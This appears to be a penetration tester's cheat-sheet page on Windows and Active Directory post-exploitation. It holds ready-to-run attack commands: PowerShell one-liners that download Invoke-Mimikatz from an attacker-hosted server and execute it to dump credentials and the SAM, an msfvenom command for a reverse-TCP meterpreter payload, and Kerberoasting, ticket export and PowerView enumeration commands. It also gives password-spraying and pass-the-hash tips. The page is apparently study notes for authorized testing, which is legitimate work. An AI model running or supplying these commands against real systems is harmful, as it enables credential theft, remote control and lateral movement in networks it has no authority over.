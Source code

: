 * PowerShell Empire has some great PS1 scripts readily available such as `Invoke-Watson` and `Invoke-MS16032` as examples. Their `Mimikatz.ps1` is also great. These can be accessed at `/usr/share/powershell-empire/empire/server/data/module_source/`
* Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds`&#x20;
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam`
* Mimikatz errors? Need to downgrade your version? Use the version availabke at [this link](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/).
* Here are some good guides on Windows Privilege Escalation
  * [0x1 Gitlab](https://0x1.gitlab.io/exploit/Windows-Privilege-Escalation/#juicy-potato-abusing-the-golden-privileges)
  * [Juicy Potato Walkthrough](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505)

### Session Passing

* If you have a shell via Netcat on a Windows machine, try using Curl to download a  ps1 to the target and executing it.
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh -o meterpreter-64.ps1`

### Active Directory

* You can perform post exploitation activities such as Kerberoasting with a machine account. This may be important if you cannot find another path to exploitation:
  * `GetUserSPNs.py -request 'DOMAIN/MACHINE$' -dc-ip DC -hashes 'LM:NTLM'`
* Basic Enumeration:
  * `net user` will enumerate all local accounts.
  * `net user /domain` will enumerate all users in the domain.
  * `net user [USER] /domain` will query the specified users.
  * `net group /domain` will list all groups in the domain.
  * `net accounts` will enumerate the domain account policy.
    * I strongly recommend using CrackMapExec or DomainPasswordSpray to perform any type of password spraying attack.
  * Run `klist` to see if there are any tickets stored in memory.
    * This can be performed with Mimikatz by running: `kerberos::list /export`&#x20;
      * These can then be cracked by using `tgsrepcrack.py` or your favorite password cracking tool.
* PowerView is your best friend when attempting to pivot. Run the following commands to get the lay of the land and perform exploitation activities.
  * `Get-NetLoggedOn -ComputerName [COMPUTER]` will return logged on users for the specified domain.
  * `Get-NetSession -ComputerName [DC]` can be useful to determine if a domain administrator has an active logon.
  * `Get-NetUser -SPN | select serviceprincipalname` Perform Kerberoasting with PowerView.
* Pass the Hash (PtH) utilizes NTLM hashes. I won't go deep into it here, however this can be accomplished with nearly every tool at your disposal
* Overpass the Hash allows us to utilize a users NTLM hash to obtain a Kerberos TGT or service ticket.&#x20;
  * After conducting this attack we can use any tooling that relies on Kerberos authentication rather than NTLM.&#x20;
    * PsExec is a great example of a tool that would benefit from this.
* Other attacks such as Silver Tickets and and Pass the Ticket have plenty of documentation online. Consult online guides when encountering this.
